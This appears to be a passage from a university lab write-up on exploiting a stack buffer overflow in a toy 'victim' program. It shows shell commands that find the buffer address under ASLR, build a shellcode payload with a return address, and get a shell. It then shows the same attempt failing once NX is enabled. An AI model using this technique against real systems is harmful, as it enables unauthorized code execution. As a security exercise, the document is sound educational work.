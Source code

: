 Offset for the ESP and the address of name[] is 88
```
vagrant@vagrant-ubuntu-trusty-64:~$ echo $((0x7fffffe3f0-0x7fffffe398))
88
```

With ASLR reenabled, ESP = 0x1d4f5d88

Now with the added offset of 88 to the ESP, we know exactly where the start of name[] is in relation to ESP.
```
vagrant@vagrant-ubuntu-trusty-64:~$ printf %x\\n $((0x7fff1d4f5d88+88))
7fff1d4f5de0
```

Next we will create a pipe FIFO file that will be used to read as input for victim.

In one terminal:
```
vagrant@precise64:~/480-project2$ cat pip | ./victim
0x7fff8c351d20
What's your name?
Hello, �_H1��;H1�H1������/bin/sh!
pip  shell  shell.c  shell.dSYM  shellcode  victim  victim.c
```

The input is updated in another terminal.

We are finding the beginning of name buffer with the ESP and offset we found earlier. This is then used to access the shell similar to what we did previously.

After pressing enter a few times, name buffer is filled with the binary for shellcode and running 'ls', we see that in the other terminal we were able to get a list of files/folders.
```
vagrant@precise64:~/480-project2$ sp=`ps --no-header -C victim -o esp`
vagrant@precise64:~/480-project2$ a=`printf %016x $((0x7fff$sp+88)) | tac -r -s..`
vagrant@precise64:~/480-project2$ echo $a
201d358cff7f0000
vagrant@precise64:~/480-project2$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) > pip


ls
```

### Executable space perversion
Trying the same procedure as above causes a segmentation fault with NX on.

In first terminal:
```
vagrant@precise64:~/480-project2$ cat pip | ./victim
0x7fffa61c3540
What's your name?
Hello, �_H1��;H1�H1������/bin/sh!
Segmentation fault
```
